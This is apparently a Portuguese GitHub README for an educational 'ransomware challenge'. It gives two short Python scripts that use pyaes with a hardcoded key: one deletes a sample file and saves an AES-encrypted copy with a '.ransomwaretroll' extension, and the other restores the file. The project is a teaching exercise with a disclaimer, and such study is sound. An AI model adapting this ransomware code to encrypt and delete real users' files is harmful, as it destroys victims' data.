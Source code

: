 # 🛡️ Desafio: Ransomware em Python

Este projeto simula o funcionamento de um ransomware: um programa capaz de criptografar arquivos e só permitir sua restauração (descriptografia) mediante o uso de uma chave.

> ⚠️ **Atenção**: Este projeto é apenas para fins educacionais. Não utilize este código para prejudicar terceiros. O uso indevido pode ser considerado crime.

---

## 📂 Estrutura do Projeto

desafio-ransomware/
├── encrypter.py # Criptografa arquivos
├── decrypter.py # Descriptografa os arquivos
├── teste.txt # Exemplo de arquivo-alvo


---

## 🎯 Objetivo

O objetivo é mostrar a aplicação prática da criptografia simétrica usando Python, com um exemplo simples de ransomware.

---

## ✅ Pré-requisitos

- Python 3 instalado
- Git instalado (opcional)
- Biblioteca `pyaes`

---

![pasta_de_arquivos](https://github.com/user-attachments/assets/17df57d1-76f6-4d91-ab5b-0e7acca5f832)


## ⚙️ Como Executar o Projeto

📄 encrypter.py – Criptografador de Arquivos
Este script é responsável por:

Ler o conteúdo de um arquivo alvo (ex: teste.txt).

Criptografar os dados usando o algoritmo AES (Advanced Encryption Standard).

Salvar os dados criptografados em um novo arquivo.

(Opcional) Deletar ou renomear o arquivo original.

🧠 Como funciona por dentro:
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

![encrypter_01](https://github.com/user-attachments/assets/c366a542-5f16-4cb5-8b63-1e6d39a46464)
![encrypter](https://github.com/user-attachments/assets/727c4687-c647-4959-b578-4101ef452ce3)





##

📄 decrypter.py – Descriptografador de Arquivos
Este script é responsável por:

Ler um arquivo previamente criptografado.

Utilizar a mesma chave de criptografia para restaurar os dados originais.

Salvar os dados restaurados em um novo arquivo (ou sobrescrever o anterior).

🧠 Como funciona por dentro:
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

![decrypter](https://github.com/user-attachments/assets/0dfcb1b0-6943-4d46-8c6b-37357e1b78a1)
![decrypter_01](https://github.com/user-attachments/assets/dffc7139-465b-4ce4-9de5-37ed8ccbe338)


